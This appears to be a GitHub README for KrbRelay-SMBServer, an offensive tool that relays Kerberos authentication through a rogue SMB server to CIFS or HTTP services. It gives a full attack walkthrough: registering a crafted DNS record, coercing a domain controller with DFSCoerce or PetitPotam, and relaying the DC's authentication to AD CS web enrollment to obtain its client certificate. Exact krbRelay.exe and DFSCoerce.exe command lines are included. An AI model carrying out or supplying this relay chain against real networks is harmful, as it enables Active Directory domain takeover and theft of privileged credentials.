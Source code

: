 # KrbRelay-SMBServer

This krbrelay version acts as an SMB server (instead of DCOM) to relay Kerberos AP-REQ to CIFS or HTTP. <br>
It's 90% based on @cube0x0's KrbRelay:  https://github.com/cube0x0/KrbRelay<br><br>
To control the SPN for relaying, James Forshaw's *CredMarshalTargetInfo()* trick is required: https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html<br><br>

Create a DNS entry for the target server_name you want to relay the kerberos AP-REQ as: *<server_name>1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA*  and mapped to your listener/relay IP. <br>
Domain users can typically perform secure DNS updates, for example you can use powershell script *invoke-dnsupdate* (https://github.com/Kevin-Robertson/Powermad) for adding a DNS entry<br><br>

Trigger the SMB authentication with a third-party tool, for example  DFSCoerce https://github.com/Wh04m1001/DFSCoerce,  PetitPotam https://github.com/topotam/PetitPotam , etc... and relay it to the attacker machine.<br><br>
Given that SMB port is 445 you have two options on the Windows attacker machine:<br>
* use a Linux box acting as redirector
* disable the SERVER serice on your Windows machine -> you can use the smb_contro.bat to perform these tasks.
<br><br>


This is a quick & dirty adaptation from original project, leaving cleanup and optimization to you  ;)
<br>
### Examples

````
# Relay the DC SMB authentication to HTTP (ADCS) web enrollment and request client certificate using a linux box redirecting to windows attacker machine on port 9999:<br>
krbRelay.exe -spn http/adcs-mylab.mylab.local -redirecthost adcs-mylab1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -endpoint certsrv  -adcs DomainController -listenerport 9999<br>
#In another window:
DFSCoerce.exe -l adcs-mylab1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA  -t DC-2
(https://github.com/decoder-it/DFSCoerce-exe-2)

# special command line switches:
-listener: relay listener port
-redirecthost: relay server/redirector  mapped to the sepcial DNS entry <server_name>1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA


For detailed usage and command line switches refer to original krbrelay tool
````
<img width="952" alt="Screenshot 2024-10-07 143939" src="https://github.com/user-attachments/assets/cc4d9796-6a26-4d99-9f5e-85de5ffe872d">

<img width="848" alt="Screenshot 2024-10-07 113416" src="https://github.com/user-attachments/assets/5a91b65b-6f87-4f4f-935d-8283f587cd81">

<img width="908" alt="Screenshot 2024-10-07 113227" src="https://github.com/user-attachments/assets/4b3a0be1-7fa7-4de6-aa5a-d645151483af">
